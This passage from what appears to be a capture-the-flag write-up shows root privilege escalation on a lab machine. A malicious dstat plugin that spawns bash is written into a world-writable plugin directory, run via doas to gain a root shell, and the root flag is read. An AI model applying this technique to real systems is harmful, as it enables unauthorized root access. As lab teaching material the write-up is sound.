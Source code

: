 What `dstat` understands as plugins are just basically python scripts using the following naming convention `dstat_[plugin name].py`.

### Malicious Plugin

This allows me to write a trivial python script that gives access to bash for an interactive shell.

```python
import os
os.system("/bin/bash")
```

Looking at the list of locations, I can obviously write to `~/.dstat`, but when run with `doas`, it’ll be running as root, and therefore won’t check `/home/player/.dstat`. Luckily, `/usr/local/share/dstat` is writable.

```bash
player@soccer:~$ echo -e 'import os\n\nos.system("/bin/bash")' > \
	/usr/local/share/dstat/dstat_shell.py
```

With that in place, I invoke `dstat` with the `shell` plugin:

```bash
player@soccer:~$ doas /usr/bin/dstat --shell
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player#
```

And grab the flag:

```bash
root@soccer:~# cat root.txt
2f090c1af8f876c1193f284135abe98f
```
